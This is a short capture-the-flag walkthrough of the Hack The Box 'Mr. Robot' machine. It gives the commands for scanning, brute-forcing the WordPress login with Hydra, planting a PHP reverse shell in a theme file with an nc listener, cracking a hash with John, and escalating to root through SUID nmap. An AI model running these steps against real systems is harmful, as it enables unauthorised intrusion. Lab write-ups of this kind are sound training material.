 # HTB – Mr. Robot Walkthrough

## Target IP
`10.129.1.17`

## Tools Used
- Nmap
- Hydra
- Netcat
- Burp Suite
- WordPress
- John the Ripper

## Steps Taken

### 1. Initial Recon

  ```bash
  nmap -sC -sV 10.129.1.17
  ```

Discovered: Port 80, Port 443

## 2. Gained Access
Brute-forced WordPress login with hydra

  ```bash

hydra -l elliot -P rockyou.txt 10.129.xx.xx http-form-post "/wp-login.php:user=^USER^&pass=^PASS^&wp-submit=Log In:F=incorrect"
  ```
Username: elliot, Password: ER28–0652

## 3. Reverse Shell

Logged into WordPress admin

Edited `404.php` theme file and pasted a PHP reverse shell

Set up a listener:

  ```bash
nc -lvnp 4444
  ```

Listener caught reverse shell from daemon

## 4. Privilege Escalation
Found MD5 hash → Cracked hash (c3fcd3d76192e4007dfb496cca67e13b) with John → Password: abcdefghijklmnopqrstuvwxyz

  ```bash
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
  ```

Switched to user robot

  ```bash
su robot
  ```

Exploited SUID nmap --interactive to escalate to root

## 5. Captured All Flags

  ```bash
cat /root/key-2-of-3.txt
  ```

  ```bash
cat /root/key-3-of-3.txt
  ```

## Flag Summary

key-1-of-3.txt

key-2-of-3.txt

key-3-of-3.txt

Rooted.
